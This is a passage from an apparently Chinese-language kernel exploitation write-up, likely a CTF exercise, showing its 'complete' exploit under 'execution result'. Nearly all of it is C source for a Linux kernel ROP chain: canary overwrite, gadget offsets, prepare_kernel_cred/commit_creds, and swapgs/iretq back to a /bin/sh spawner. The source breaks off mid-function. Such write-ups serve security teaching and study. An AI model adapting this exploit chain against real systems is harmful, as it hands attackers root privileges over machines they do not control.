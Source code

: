 ### 4.3.执行结果

完整的pop如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

unsigned long long commit_cred_addr;
unsigned long long prepare_kernel_cred_addr;
unsigned long long ret_addr;
unsigned long long user_cs, user_ss, user_rsp, user_flag;
unsigned long long name_payload[25];

void get_shell()
{
    system("/bin/sh");
}
void build_rop(unsigned long long canary)
{
    unsigned long long commit_cred_offset = 0x9c8e0; // 0xffffffffa409c8e0-0xffffffffa4000000=0x9c8e0 get from kallsyms
    unsigned long long kernel_base_addr = commit_cred_addr - commit_cred_offset;

#define vmlinux_offset(x) (x - 0xffffffff81000000)

    memset(name_payload,0x90,sizeof(name_payload));
    name_payload[8] = canary;
    name_payload[10] = kernel_base_addr + vmlinux_offset(0xffffffff81000b2f); // 0xffffffff81000b2f : pop rdi ; ret
    name_payload[11] = 0;//rdi=0 after pop rid
    name_payload[12] = prepare_kernel_cred_addr;//ret will triger to excute this function
    name_payload[13] = kernel_base_addr + vmlinux_offset(0xffffffff810a0f49);//ret-addr of prepare_kernel_cred_addr,0xffffffff810a0f49 : pop rdx ; ret;
    name_payload[14] = commit_cred_addr;//we put commit_cred_addr into rdx, after move rdi,rax, then call rdx or jmp rdx
    name_payload[15] = kernel_base_addr + vmlinux_offset(0xffffffff81735dc1);//0xffffffff81735dc1 : pop r15 ; mov rdi, rax ; jmp rdx
    name_payload[16] = 0x90;//this is for pop r15, we don't care
    name_payload[17] = kernel_base_addr + vmlinux_offset(0xffffffff81a012da);//return from commit_cred_addr, we are in root state: 0xffffffff81a012da : swapgs ; popfq ; ret
    name_payload[18] = 0x90;//this is for popfq, we don't care
    name_payload[19] = kernel_base_addr + vmlinux_offset(0xffffffff81050ac2);//0xffffffff81050ac2: iretq; ret;
    name_payload[20] = &get_shell;//return_addr rip for iretq
    name_payload[21] = user_cs; //code seg for iretq
    name_payload[22] = user_flag;//flag register for iretq
    name_payload[23] = user_rsp;//rsp  for iretq
    name_payload[24] = user_ss;//stack seg for iretq
}

void save_status()
{
    // pushf-->push flag into stack
    // then use pop user_flag to get current flag
    asm("mov %%cs,%0":"=r"(user_cs));
    asm("mov %%ss,%0":"=r"(user_ss));
    asm("mov %%rsp,%0":"=r"(user_rsp));
    asm("pushf\n"
        "pop %0"
        :"=r"(user_flag)    
```